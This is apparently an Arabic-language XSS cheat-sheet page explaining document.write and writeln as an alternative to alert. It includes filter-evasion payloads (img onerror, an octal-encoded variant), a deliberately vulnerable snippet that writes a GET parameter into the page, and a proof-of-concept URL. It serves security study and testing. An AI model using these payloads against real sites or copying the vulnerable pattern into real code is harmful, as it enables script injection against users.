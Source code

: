 
## **✅ بديل التنبيه – Write & Writeln (Alert Alternative – Write & Writeln)**
{ #XSS_with_out_alret / #XSS_DOM  }
##### **الشرح البسيط:**
يُستخدم كبديل لـ `alert` بكتابة محتوى مباشرة في الصفحة باستخدام `document.write` أو `document.writeln`.

##### **أمثلة تعمل:**
- `write`XSSed!``: يكتب نصًا في الصفحة.
- `write`<img/src/oNerror=alert(1)>``: يكتب عنصر HTML يُنفذ XSS.
- `write('\74img/src/o\156error\75alert\501\51\76')`: يكتب عنصر HTML بترميز أوكتال.
- في JavaScript: `document.write('<img/src/oNerror=alert(1)>')`.

##### **لماذا يعمل؟**
- `document.write` مدعوم في جميع المتصفحات.
- يتجاوز مرشحات تمنع `alert` أو `prompt`.
- يسمح بإدراج HTML مع معالجات مثل `onerror`.

##### 📌 **تستخدمها لما:**

- `alert()` مش شغالة أو متقفلة.
    
- وعايز تكتب عنصر HTML في الصفحة ينفذ الكود.
    

##### 🧪 **مثال:**

```js
document.write('<img src=x onerror=alert(1)>')
```

أو حتى كده:

```js
write`<img src=x oNerror=alert(1)>`
```

💡 المتصفح هيعرض الصورة، لكن فيها `onerror=alert(1)`، فهينفذ الكود.


### 🔥 الكود المصاب:

```html
<!-- vulnerable4.html -->
<script>
  var content = "<?= $_GET['x']; ?>";
  document.write(content);
</script>
```

### 💣 PoC:

```
vulnerable4.html?x=<img src=x onerror=alert(1)>
```
